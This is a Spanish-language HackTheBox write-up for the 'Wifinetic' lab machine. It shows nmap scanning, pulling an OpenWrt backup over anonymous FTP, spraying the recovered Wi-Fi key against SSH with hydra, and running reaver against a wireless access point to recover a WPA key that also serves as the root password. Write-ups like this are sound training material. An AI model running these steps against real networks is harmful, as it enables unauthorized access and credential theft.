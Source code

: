 ```yaml
---
title: HackTheBox - Wifinetic
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Cracking WPA/WPA2 Password']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Wifinetic/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Wifinetic Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Cracking WPA/WPA2 Password**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Wifinetic/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Wifinetic/02-versions.png)

* Como está habilitada la autenticación 'anónima' en FTP, listamos los ficheros existentes y los descargamos

c. Con los ficheros en nuestra máquina, listamos toda la información posible.

```bash
❯ 7z x backup-OpenWrt-2023-07-26.tar
❯ cat config/wireless
    <SNIP>
    option key 'VeRyUniUqWiFIPasswrd1!'

❯ cat passwd

root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false
ntp:x:123:123:ntp:/var/run/ntp:/bin/false
dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
logd:x:514:514:logd:/var/run/logd:/bin/false
ubus:x:81:81:ubus:/var/run/ubus:/bin/false
netadmin:x:999:999::/home/netadmin:/bin/false
```

* Guardamos estos nombres de usuario en una fichero y realizaremos un ataque de fuerza bruta al servicio ssh con hydra

    ```bash
    ❯ cat passwd | awk '{print $1}' FS=':' > users.txt
    ❯ hydra -L users.txt -p 'VeRyUniUqWiFIPasswrd1!' ssh://10.10.11.247 -t 4

    [22][ssh] host: 10.10.11.247   login: netadmin   password: VeRyUniUqWiFIPasswrd1!
    ```

### Escalada de Privilegios 💹

a. Contamos con múltiples interfaces de red y vemos una **capability** asignada a 'reaver'

```bash
netadmin@wifinetic:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 10.10.11.247  netmask 255.255.254.0  broadcast 10.10.11.255

mon0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    unspec 02-00-00-00-02-00-30-3A-00-00-00-00-00-00-00-00  txqueuelen 1000  (UNSPEC)

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 192.168.1.1  netmask 255.255.255.0  broadcast 192.168.1.255

wlan1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 192.168.1.23  netmask 255.255.255.0  broadcast 192.168.1.255

wlan2: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
    ether 02:00:00:00:02:00  txqueuelen 1000  (Ethernet)

netadmin@wifinetic:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```

> **Reaver** es una herramienta usada para pentesting en redes que tienen habilitado el protocolo WPA/WPA2
{: .prompt-info }

b. Para usar esta herramienta necesitamos una interfaz de red en modo monitor 'mon0', la dirección MAC y el canal en el cual opera esta interfaz

```bash
netadmin@wifinetic:~$ iw dev

<SNIP>
phy#0
    Interface wlan0
        ifindex 3
        wdev 0x1
        addr 02:00:00:00:00:00
        ssid OpenWrt
        type AP
        channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
        txpower 20.00 dBm

netadmin@wifinetic:~$ reaver  -i mon0 -b 02:00:00:00:00:00 -c 1 -vv

<SNIP>
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
```

* Con la credencial antes obtenida podemos acceder como root al sistema

    ```bash
    netadmin@wifinetic:~$ su root
    Password: WhatIsRealAnDWhAtIsNot51121!
    root@wifinetic:/home/netadmin#
    ```